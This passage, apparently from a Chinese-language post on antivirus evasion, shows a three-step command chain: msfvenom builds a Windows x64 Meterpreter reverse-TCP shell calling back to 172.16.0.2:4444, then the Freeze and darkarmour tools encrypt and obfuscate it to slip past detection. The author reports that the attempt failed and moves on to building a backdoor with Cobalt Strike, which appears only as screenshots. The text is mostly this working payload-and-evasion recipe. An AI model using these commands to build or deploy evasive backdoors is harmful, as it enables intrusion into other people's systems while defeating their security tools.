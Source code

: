 组合下来的情况如下：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.0.2 LPORT=4444 -f raw > shell64.exe
./Freeze -I /root/shell64.raw -encrypt -O bypass.exe
python darkarmour.py -f /root/bypass.exe --encrypt xor --jmp -k fsec.io --loop 1500 -o /root/test.exe
```

测试结果翻车：）



使用cs生成后门

![image-20230124023645062](../../images//image-20230124023645062.png)

![image-20230124023700880](../../images//image-20230124023700880.png)
